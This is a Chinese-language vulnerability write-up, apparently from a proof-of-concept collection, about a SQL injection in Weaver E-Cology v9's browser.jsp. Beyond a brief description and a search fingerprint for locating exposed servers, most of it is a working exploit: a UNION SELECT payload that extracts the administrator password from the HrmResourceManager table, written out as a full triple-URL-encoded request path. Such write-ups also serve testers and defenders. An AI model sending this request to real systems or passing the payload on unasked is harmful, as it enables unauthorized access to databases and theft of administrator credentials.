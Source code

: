 # 泛微OA E-Cology browser.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology browser.jsp 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，进一步进行攻击

## 漏洞影响

<a-checkbox checked>泛微 E-Cology v9</a-checkbox></br>

## 网络测绘

<a-checkbox checked>product="泛微-协同商务系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1676091526166-ba4ab485-edae-45c1-8630-bcc5a8d9a92f.png)

验证POC, 将SQL语句进行3次URL编码

```plain
asdasdasxx%' union select 1,(select password from HrmResourceManager where id=1) union select 1,'1
/mobile/%20/plugin/browser.jsp?isDis=1&browserTypeId=269&keyword=%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1676091641750-23f7219b-d038-4368-8013-c8778268ef09.png)